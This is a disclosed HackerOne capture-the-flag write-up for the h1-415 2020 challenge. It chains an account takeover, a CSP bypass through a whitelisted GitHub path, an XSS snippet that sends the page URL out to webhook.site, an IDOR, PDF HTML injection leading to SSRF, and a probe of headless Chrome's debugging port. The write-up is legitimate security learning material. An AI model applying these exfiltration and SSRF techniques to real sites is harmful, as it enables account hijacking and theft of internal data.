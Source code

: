 # [h1-415 2020] h1ctf{y3s_1m_c0sm1c_n0w}

## Report Details
- **Report ID**: 781253
- **URL**: https://hackerone.com/reports/781253
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-23T04:45:56.543Z
- **Disclosed**: 2020-02-03T20:48:00.906Z

## Reporter
- **Username**: pirateducky
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
## Summary:
[add summary of the vulnerability]
Account takeover was possible because of the email validation used - `jobert@mydocz.cosmic<>{}` could be registered, but when the the system created the recovery `QR` code the extra symbols would get stripped leaving us with a valid recovery `QR` code to log into `jobert@mydocz.cosmic`. Once logged in we had access to the `support` bot (if you left a `1` star review, "someone" would come by and check our conversation) - here we realized we could inject markup however the CSP policy was pretty strict, the only outside script allowed to run needed to come from `https://github.com/mattboldt/typed.js/master/lib/` we found that we could append a github repo to this url and execute it's content `https://github.com/mattboldt/typed.js/master/lib/@https://github.com/username/repo_name/master/filename.js` you have to remove `/blob/` from the repo url.  Once we had execution we tried to exfiltrate `cookies` and anything we could think of, include `window.location.href` which gives you the current url the user is visiting, we did is using a script that looked like
```js
var image = document.createElement("img")
var image.src = "webhook.site/1234/img.png?url= + window.location.href
document.body.appendChild(image)
``` 
This allowed us to get the reviewer link to our conversation: `https://h1-415.h1ctf.com/support/review/39b707f120c5fde356bf0f5daec51bee292d38862d2bc7d09ba032257365e2dd` 
Once you had access to the form in the reviews there's a form the reviewer has access to, to edit the user's name, this parameter was vulnerable to an IDOR - so you could edit anyone's name, we created a second trial account and tried to change its name - it worked, next we noticed the pdf's the application was creating rendered the name of the user - with this information we tried to inject html into the name using the IDOR we found and it worked! html is rendering, let's make a request to our server so we can get more information about what's creating these pdfs, here I used https://ssrftest.com to test for SSRF - there's a payload to use an image and try to get a request back to the server - it works and the header's that are important to us here are `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36` it tells us this is a headless browser Chrome running on linux, there's also a `Referer: http://localhost:3000/` so we know this is running behind a proxy - we spent a lot of time trying to figure out how to do the next thing - finally we started using an `iframe` to "peek" inside the application, trying ports, `80` returned `FORBIDDEN` and everything else we tried was blank, and then I remembered this was using `headless Chrome` so I used my google-fu and searched for `headless chrome port number` and the results were promising: 
```
chrome \
  --headless \                   # Runs Chrome in headless mode.
  --disable-gpu \                # Temporarily needed if running on Windows.
  --remote-debugging-port=9222 \
  https://www.chromestatus.com   # URL to open. Defaults to about:blank.
```

We used that port number like so: `<iframe src='http://localhost:9222 width=900 height=900></iframe>` this gave us back: 

`Inspectable WebContents`  :( 

but then we tried: `<iframe src='http://localhost:9222/json width=900 height=900></iframe>` and....

we receive a json document with the important part being
```
secret_document=0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab.pdf",   "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/E20087FA03CA27A6E908AFD7E5321E88"```

if you access: https://h1-415.h1ctf.com/documents/0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab.pdf

It is done! 

Thank you Hacker1 for hosting this event, I participated with 2 other awesome friends from the hacker101 discord @checkm50 & @ Al-MadjusT who without I would not have been able to finish it - we did it and took us every moment of it, but we did it. And it feels awesome! 

This write up is last minute and it sucks, next time I'll write a better one, this one was all about getting it done.

Again thank you!

## Impact

We finished it.

We got to take over an account and compromise the internal network to retrieve the secret document.

## Attachments
- Screenshot_2020-01-22_0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab_pdf.png
